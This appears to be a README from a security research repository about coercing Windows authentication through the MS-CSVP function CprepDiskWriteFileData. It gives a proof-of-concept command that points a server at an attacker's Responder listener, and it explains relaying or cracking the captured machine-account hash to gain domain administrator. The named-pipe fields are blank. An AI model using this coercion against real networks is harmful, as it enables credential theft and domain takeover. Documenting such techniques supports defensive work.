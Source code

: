 # MS-CSVP - Remote call to CprepDiskWriteFileData (opnum 17)

## Summary

 - **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

 - **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CprepDiskWriteFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e)

 - **Function operation number**: `17`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskWriteFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskWriteFileData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskWriteFileData(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName,
   [in] unsigned long cbDataIn,
   [in, size_is(cbDataIn)] byte* DataIn
 );
```

## References

 - Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

 - Documentation of function `CprepDiskWriteFileData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e
